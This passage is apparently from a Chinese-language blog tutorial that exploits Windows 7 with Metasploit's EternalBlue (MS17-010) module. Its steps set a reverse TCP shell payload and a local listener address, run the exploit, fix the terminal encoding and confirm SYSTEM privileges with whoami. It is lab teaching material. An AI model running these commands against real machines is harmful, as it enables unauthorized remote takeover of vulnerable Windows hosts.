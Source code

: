 ![](https://img-blog.csdnimg.cn/img_convert/d35ebde539dd1c5fc203d3c687d9313c.png)

设置 payload

```c#
xploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
```

![](https://img-blog.csdnimg.cn/img_convert/a2d0a552b50fc1af2dc4af86c7b1c066.png)

查看配置选项

```c#
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```

![](https://img-blog.csdnimg.cn/img_convert/6495b5e2f0a94bed8da45fc81c91acad.png)

设置一下本机 payload 监听地址

```c#
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.37.138 //本机 IP
```

![](https://img-blog.csdnimg.cn/img_convert/5bd09bf5da63e88238759c7db5a1bbc7.png)

配置完成后开始执行

```c#
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

![](https://img-blog.csdnimg.cn/img_convert/2b21ee37c4648ebd7884ae2c51712322.png)

发现已经拿到 win7的权限了 是乱码，

![](https://img-blog.csdnimg.cn/img_convert/90aa2bb41ae58b982cc25c2f1f6f3564.png)

解决方案

更改终端字符编码即可-选择 配置文件首选项

![](https://img-blog.csdnimg.cn/img_convert/13150fb0a268beca4f1743ccc6832c40.png)

选择最后一个-兼容性-编码-传统 CJK 编码 简体中文-GBK

![](https://img-blog.csdnimg.cn/img_convert/aac31346f5b171fb95c61346619af3e3.png)

效果

![](https://img-blog.csdnimg.cn/img_convert/b51ea2285c30468598a17ce5a915ab77.png)

输入whoami

发现是系统权限，也就是window 的最高权限

![](https://img-blog.csdnimg.cn/img_convert/7b706f6f32ecacb3297d0f1197bba6f5.png)
